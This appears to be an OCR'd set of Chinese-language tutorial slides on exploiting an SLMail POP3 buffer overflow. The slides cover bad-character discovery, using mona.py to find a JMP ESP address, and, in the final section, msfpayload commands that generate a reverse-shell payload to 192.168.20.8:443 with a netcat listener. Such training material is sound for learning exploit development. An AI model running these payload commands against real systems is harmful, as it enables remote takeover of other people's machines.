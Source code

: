 
#### FUZZING

###### • 不同类型的程序、协议、漏洞，会将某些字符认为是坏字符，这些字符有固定用途

- 返回地址、Shellcode、buffer中都不能出现坏字符
- null byte (0x00) 空字符，用于终止字符串的拷贝操作
- return (0x0D) 回车操作，表示POP3 PASS 命令输入完成
- 思路：发送0x00 —— 0xff 256个字符，查找所有坏字符
- 07.py
- 0x0A
- 0x0D


#### FUZZING

###### • 重定向数据流

- 用 ESP 的地址替换 EIP 的值
- 但是 ESP 地址变化，硬编码不可行
- SLMail 线程应用程序，操作系统为每个线程分配一段地址范围，每个线程地址范围不确定
- 变通思路
- 在内存中寻找地址固定的系统模块
- 在模块中寻找 JMP ESP 指令的地址跳转，再由该指令间接跳转到 ESP，从而执行shellcode
- mona.py 脚本识别内存模块，搜索“return address”是JMP ESP指令的模块
- 寻找无DEP、ALSR保护的内存地址
- 内存地址不包含坏字符


#### FUZZING

###### • 寻找不受保护的系统模块

- !mona modules
- 将汇编指令 jmp esp 转换为二进制
- ./nasm_shell
- FFE
- 在模块中搜索 FFE4 指令
- !mona find -s “\xff\xe4” -m slmfc.dll
- 选择不包含坏字符的内存地址
- 在该地址设置断点
- 重发buffer
- 08.py （地址全翻转）


#### FUZZING

- 生成shellcode
- Scratch
- ./msfpayload -l
- ./msfpayload win32_reverse LHOST=192.168.20.8 LPORT=443 C
- ./msfpayload win32_reverse LHOST=192.168.20.8 LPORT=443 R | ./msfencode - b
    “\x00\x0a\x0d”
- nc - vlp 443
- 09.py
